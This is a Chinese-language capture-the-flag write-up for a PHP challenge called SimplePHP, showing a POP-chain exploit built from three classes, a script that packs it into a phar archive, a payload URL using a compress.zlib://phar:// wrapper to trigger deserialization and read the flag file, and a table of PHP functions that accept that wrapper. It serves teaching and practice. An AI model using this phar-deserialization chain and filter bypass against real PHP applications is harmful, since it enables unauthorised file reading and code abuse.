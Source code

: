 # SimplePHP

1. 查看源码发现

`<!--flag is in /flag-->  `

2. 题目中给出两个参数，一个file，一个high_light。初步尝试发现high_light可以读源码，但是无法跨目录，只读取到当前路径下的文件。
3. 依次读取index.php、base.php、file.php、upload_file.php、function.php、class.php
4. 代码审计，有3个类，考虑构造POP链，接下来找反序利化触发点。
5. 并没有发现直接的反序利化函数。但是提供文件上传、并且在代码中发现对phar进行过滤，想到phar读取phar文件能够触发反序利化。至此题目思路明确。

```
<?php

class Show
{
    public $source="E:/wamp/wamp64/www/Web_For_6/flag";
    public $str;
    public function __toString()
    {
        echo '__toString';
        $text= $this->source;
        $text = base64_encode(file_get_contents($text));
        return $text;
    }
}
class S6ow
{
    public $file;
    public $params = array('_show' => 'file_get');

    public function __get($key)
    {

        return $this->params[$key];
    }
    public function __call($name, $arguments)
    {

        if($this->{$name}){
            $this->{$this->{$name}}($arguments);
            echo 'kkk';
        }
    }
    public function file_get($value)
    {
        echo "file_get";
        echo $this->file;
    }
}

class Sh0w
{
    public $test;
    public $str;
    public function __destruct()
    {
        $this->str->_show();
    }
}

$a = new Sh0w();
$a->str=new S6ow();
$a->str->file = new Show();


    //生成对应可被利用的对象
    $o = $a;
    @unlink("test.phar");
    $phar = new Phar("test1.phar");
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头用以欺骗检测
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

payload:

`http://127.0.0.1/web/file.php?high_light=compress.zlib://phar://upload/exp.jpg&file=/a`



PS: 这道题改自原题swpuctf-web-SimplePHP。来自做题时的一个非预期发现。在通过文件函数触发phar反序利化时，部分文件函数无法识别compress.zlib://前缀。

| 受影响的函数      | phar:// | compress.bzip2://phar:// |
| ----------------- | ------- | ------------------------ |
| fileatime         | √       | ×                        |
| file_get_contents | √       | √                        |
| fileinode         | √       | ×                        |
| is_dir            | √       | ×                        |
| is_readable       | √       | ×                        |
| copy              | √       | √                        |
| filectime         | √       | ×                        |
| file              | √       | √                        |
| filemtime         | √       | ×                        |
| is_executable     | √       | ×                        |
| is_writable       | √       | ×                        |
| unlink            | √       | ×                        |
| file_exists       | √       | ×                        |
| filegroup         | √       | ×                        |
| fileowner         | √       | ×                        |
| is_file           | √       | ×                        |
| is_writeable      | √       | ×                        |
| stat              | √       | ×                        |
| fopen             | √       | √                        |
| fileperms         | √       | ×                        |
| is_link           | √       | ×                        |
| parse_ini_file    | √       | √                        |
| readfile          | √       | √                        |
| md5_file          | √       | √                        |
| filesize          | √       | ×                        |
| highlight_file    | √       | √                        |

（内置函数fuzz一下还可以发现很多~）